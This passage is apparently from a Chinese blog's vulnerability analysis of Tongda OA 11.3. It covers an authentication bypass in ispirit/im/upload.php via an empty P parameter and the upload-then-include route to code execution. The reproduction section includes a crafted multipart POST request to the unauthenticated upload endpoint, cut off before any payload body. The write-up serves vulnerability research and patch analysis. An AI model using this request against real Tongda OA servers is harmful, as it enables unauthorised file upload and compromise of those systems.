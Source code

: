 通达 OA 使用`zend`加密，需要使用[`SeayDzend`工具][1]解密

这个工具同样出自[`Seay`师傅][2]之手（Seay 源代码审计系统就是出自这个师傅）

也可以使用在线加[解密网站][3]

比较安装补丁前后的文件`ispirit/im/upload.php`如下：

![][4]

可以看出`upload.php`在修复前如果`$P`非空就不需要通过`auth.php`验证即可执行后续代码，

利用此处逻辑伸缩可绕过过登陆验证直接上传文件

往下走遇到`$DEST_UID`同样也可以通过`POST`的方式自行赋值

![][5]

接着到了判断文件的点，此处可以知道文件上传的变量名为`ATTACHMENT`

![][6]

继续跟进`upload`函数跳转到文件`inc/utility_file.php`

这里对上传的文件进行了一系列的检查，包括黑名单等限制

![][7]

那么我们上传`jpg`格式的`php`代码，然后文件包含即可

**漏洞复现：**

首先自行下载 11.3[安装包][8]

下载完源码后全部默认安装一直下一步，安装完后访问`localhost`或者你本地的`ip`

![登陆界面][9]

在未登录状态访问任意文件上传漏洞路径`/ispirit/im/upload.php`

![][10]

访问路径显示`- ERR 用户未登录`，此时 burp 抓包拦截并修改为如下：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.103.51.104
Content-Length: 655
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBwVAwV3O4sifyhr3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="P"


------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg
```

[1]: https://pan.baidu.com/s/1boJrEbX#2uj7
[2]: http://www.cnseay.com
[3]: http://dezend.qiling.org/free.html
[4]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_161524.png
[5]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162051.png
[6]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162124.png
[7]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162641.png
[8]: https://pan.baidu.com/s/1c0tiX5VIdrFdOkeTsRPpYQ#640o
[9]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_143818.png
[10]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_143920.png
[11]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161129.png
[12]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161213.png
[13]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161252.png
[14]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_151848.png
[15]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_153950.png
[16]: https://mp.weixin.qq.com/s/a3Q-0_UAoMtYU2FMo_oG-A
[17]: https://bbskali.cn/forum.php?mod=viewthread&tid=2026
[18]: https://mp.weixin.qq.com/s/dmXYxqFWGFl3ZnXOwZ-nlQ
[19]: https://www.freebuf.com/articles/web/241139.html
[20]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_142024.png
[21]: https://github.com/NS-Sp4ce/TongDaOA-Fake-User
[22]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_141701.png
[23]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_142024.png
[24]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_145113.png
[25]: https://bbs.zkaq.cn/t/4434.html
[26]: https://www.freebuf.com/articles/web/234992.html
[27]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_171933.png
[28]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_172448.png
[29]: https://www.zrools.org/2020/04/23/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-%E9%80%9A%E8%BE%BEOA-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E%EF%BC%88%E5%8C%BF%E5%90%8DRCE%EF%BC%89%E5%88%86%E6%9E%90/
